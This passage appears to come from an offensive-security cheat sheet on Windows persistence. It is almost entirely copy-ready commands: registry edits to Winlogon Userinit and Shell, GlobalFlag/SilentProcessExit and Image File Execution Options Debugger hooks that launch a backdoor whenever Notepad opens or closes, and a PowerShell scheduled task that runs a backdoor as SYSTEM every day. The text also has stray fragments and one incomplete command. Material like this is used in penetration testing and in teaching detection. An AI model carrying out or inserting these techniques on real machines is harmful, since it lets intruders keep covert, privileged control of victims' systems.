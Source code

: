 ```powershell
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, $backdoor" -Force
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, $backdoor" -Force
```
{% endtab %}

{% tab title="cmd.exe" %}
Run backdoor during Windows logon

```
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
```
{% endtab %}
{% endtabs %}

#### GlobalFlag

add powershell

Add the following three keys to the registry to allow your backdoor to execute whenever Notepad.exe closes.

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
```

#### Debugger

You can also abuse this to run your backdoor whenever Notepad.exe is opened with two registry keys:

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "pentestlab.exe"
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe"
```

This process can be automated by using [this](https://gist.github.com/netbiosX/ee35fcd3722e401a38136cff7b751d79) PowerShell module from [netbiosX](https://github.com/netbiosX). &#x20;

### Scheduled Tasks

Scheduled Task to run your backdoor as NT AUTHORITY\SYSTEM, everyday at 9am.

add cmd.exe

```powershell
$action = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c $backdoor_path"
$trigger = New-ScheduledTaskTrigger -Daily -At 9am
$principal = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
$settings = New-ScheduledTaskSettingsSet
$task = New-ScheduledTask -Action $action -Trigger $trigger -Principal $principal -Settings $Settings
Register-ScheduledTask $taskname -InputObject $task
```
